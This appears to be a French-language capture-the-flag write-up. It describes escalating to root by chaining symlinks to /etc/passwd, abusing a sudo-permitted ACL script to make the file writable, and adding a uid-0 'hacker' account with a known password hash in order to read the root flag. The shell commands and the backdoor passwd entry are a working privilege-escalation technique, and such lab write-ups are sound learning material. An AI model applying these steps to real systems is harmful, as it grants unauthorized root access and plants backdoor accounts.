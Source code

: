 ```bash
```

Il permet de modifier les droits de n'importe quel fichier. Cependant, il faut que ce fichier soit dans /home/mtz et qu'il soit un fichier, pas un lien symbolique.

La technique consiste donc à créer deux liens symboliques qui vont vers le fichier qui nous intéresse.
Ensuite on change les droits

J'ai donc modifier les droits de /etc/passwd pour pouvoir le modifier en tant que **mtz**.
On ajoute un utilisateur hacker, avec le mdp "password" qui a les droits root
On se connecte à hacker et on affiche le fichier root.txt avec le flag.

!!ATTENTION!!, il y a une contab qui retablit les fichiers /etc/passwd et qui supprime les liens symboliques dans /home/mtz donc il faut le faire rapidement...

```bash
$ ln -s /etc/passwd .a && ln -s .a .b && sudo /opt/acl.sh mtz rwx /home/mtz/.b && cat /etc/passwd
## Affichage de /etc/passwd

## Ajout d'un utilisateur hacker avec les droits root et le mot de passe "password"
$ vi /etc/passwd
...
...

hacker:$6$XbyWNHgUybMiBnVK$FOoR2G.C.YAk0TAzOcf2igmcoVWkJtzDQgs7C4TmE7fazCwasTsutVY.5AR8CkiA7cBcGGx8cHdPtUUdkXOGA1:0:0::/root:/bin/bash

$ su hacker
Password: password
$ cat /root/root.txt
1808.....4142
```